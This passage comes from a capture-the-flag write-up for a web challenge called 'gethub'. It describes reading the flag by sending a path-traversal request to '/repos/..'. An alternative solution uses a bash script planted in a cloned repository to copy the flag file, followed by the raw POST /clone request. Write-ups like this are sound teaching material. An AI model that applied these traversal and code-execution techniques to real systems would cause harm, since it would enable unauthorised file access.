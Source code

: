 ```python
        mimetype='application/zip'
    )
```

When I tried this function to see how it handles the paths I was able to get the flag by just simply sending a request to `/repos/..` which breaks the logic of the app and make it read all the files on the directory!

![](/assets/img/uploads/20231028081859.png)

![](/assets/img/uploads/20231028081842.png)

### Other solution by (@Talli)

Set up a GitHub repository containing a 'code.sh' file:

```bash
#!/bin/bash
cat /home/challenge/gethub/flag.txt > /home/challenge/gethub/repositories/test/flag.txt
```

```http
POST /clone HTTP/1.1
Host: challenge.ctf.games:32081
Content-Length: 51
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://challenge.ctf.games:32081
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://challenge.ctf.games:32081/clone
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
```